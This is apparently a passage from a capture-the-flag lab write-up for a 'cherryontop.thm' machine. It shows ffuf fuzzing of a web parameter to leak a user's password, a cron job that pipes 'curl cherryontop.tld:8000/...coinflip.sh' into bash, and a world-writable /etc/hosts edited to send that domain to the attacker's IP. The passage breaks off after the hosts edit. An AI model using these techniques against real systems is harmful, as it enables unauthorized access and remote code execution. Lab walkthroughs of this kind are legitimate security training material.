 Sam thing here and still nothing.

Let's try with user `sam-sprinkles`.

```terminal
$ ffuf -c -w ./nums.txt -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=ONQW2LLTOBZGS3TLNRSXG===' -fr 'Error'
[...]

1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 119ms]
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 137ms]
3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 190ms]
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 199ms]
4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 235ms]
43                      [Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 218ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 220ms]
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 212ms]
```

We got the same numbers, but checking them on burp we got a different output on one of them.

![passam](9.png)

We got `sam-sprinkles's` password.

### bob-boba

After runnning linpeas we find a cronjob running every minute.

```terminal
*  *    * * *   bob-boba curl cherryontop.tld:8000/home/bob-boba/coinflip.sh | bash
```

It's running as user bob-boba requesting a shell file from `cherryontop.tld:8000/` and piping the content to bash to get it executed.

Checking the `/etc/hosts` file we find that we have write permission over it.

```terminal
-rw-rw-rw- 1 root adm 345 Nov 20 08:04 /etc/hosts
```

We can edit this file to point to our server on the `cherryontop.tld` domain.

```temrinal
127.0.0.1 localhost
127.0.0.1 cherryontop.com
127.0.0.1 cherryontop.thm
127.0.0.1 nano.cherryontop.thm
127.0.1.1 nanocherryctf
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.14.91.207 cherryontop.tld
```
